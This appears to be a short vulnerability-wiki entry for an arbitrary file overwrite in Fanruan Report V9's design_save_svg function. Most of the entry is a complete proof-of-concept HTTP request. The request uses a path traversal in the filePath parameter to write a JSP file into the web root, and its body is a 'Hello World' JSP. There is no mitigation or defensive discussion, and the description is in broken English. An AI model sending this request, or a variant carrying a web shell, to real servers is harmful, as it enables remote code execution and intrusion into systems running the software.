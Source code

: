 # Fanruan Report V9 design_save_svg Any file overwrite file upload

## Vulnerability Description

Fanruan V9 has any file overwrite, causing attackers to upload any file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fanruan V9</span>

## Vulnerability reappears



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fan-7.png)

```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```
